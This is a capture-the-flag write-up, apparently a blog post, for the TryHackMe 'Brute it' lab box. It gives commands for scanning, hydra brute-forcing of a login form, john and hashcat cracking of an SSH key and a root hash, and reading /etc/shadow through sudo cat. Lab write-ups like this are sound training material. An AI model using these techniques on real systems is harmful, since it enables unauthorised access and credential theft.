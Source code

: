 ```yaml
---
layout: post
permalink: /posts/thm/brute-it
title: "Brute it"
---
```


Learn how to brute, hash cracking and escalate privileges in this box! <br/>

We'll start our enumeration process with nmap.

```
nmap -sC -sV <IP>
```

![nmap](/assets/images/thm/brute-it/nmap.png)

From the result we can see that there is an open port 22 SSH and port 80 HTTP. We can also see the services version and what is the operation system they are running on. <br/>

Go and visit the website.

![website](/assets/images/thm/brute-it/website.png)

It's Apache default page. We can try to scan for hidden directories. I'm going to use gobuster for that purpose.

```
gobuster dir -u http://10.10.137.187/ -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
```

![gobuster](/assets/images/thm/brute-it/gobuster.png)

We have found `/admin`, let's visit it.

![admin](/assets/images/thm/brute-it/admin.png)

It's a login page and we need to find a way to login. Let's try to see whether we'll be able to find something through the source code.

![source](/assets/images/thm/brute-it/source.png)

Yep, we have found a comment which tells us that the username for this login form is admin and probably john is also a user. Now try to login with admin and any password and catch the request with Burp Suite.

![burp-req](/assets/images/thm/brute-it/burp-req.png)

With this capture we have all the information we need to create a payload for hydra and to brute force the login form.

```
hydra -l admin -P rockyou.txt 10.10.137.187 http-post-form "/admin/:user=^USER^&pass=^PASS^:Username or password invalid"
```

![hydra](/assets/images/thm/brute-it/hydra.png)

Perfect, now we have the credentials, let's login.

![login](/assets/images/thm/brute-it/login.png)

Here is the web flag and also there is id_rsa key. Copy the content and create a key on your machine. Don't forget to change the permissions.

```
chmod 600 id_rsa
```

Now we need to crack the key. There is a script from John the Ripper which can convert the key to hash and after that we will be able to crack it.

```
python3 /opt/john/run/ssh2john.py id_rsa > hash.txt
```

We have the hash, let's crack it.

```
john hash.txt --wordlist=rockyou.txt
```

![john](/assets/images/thm/brute-it/john.png)

Good now we can ssh to the target machine.

```
ssh john@10.10.137.187 -i id_rsa
```

![ssh](/assets/images/thm/brute-it/ssh.png)

From there we can find next flag. The last thing we can do is to escalate our privileges. Let's see whether john has any permission to execute any commands as root.

```
sudo -l
```

![sudo-l](/assets/images/thm/brute-it/sudo-l.png)

Very well, we can execute `cat` command as root. We can look at <https://gtfobins.github.io/gtfobins/cat/>.

![gtfobins](/assets/images/thm/brute-it/gtfobins.png)

So we are able to read any file. Actually we can read the root flag but we need to escalate our privileges. There is file in Linux OS which contains actual users password in encrypted format `/etc/shadow`. Let's read it.

![cat](/assets/images/thm/brute-it/cat.png)

Copy the hash in a file in our machine and crack it. This time I'm going to use hashcat.

```
hashcat -m 1800 root-hash.txt rockyou.txt 
```

![hashcat](/assets/images/thm/brute-it/hashcat.png)

Now we have the root password. Let's switch to root.

```
su root
```

![root](/assets/images/thm/brute-it/root.png)

Here we go, we were able to escalate our privileges to root.

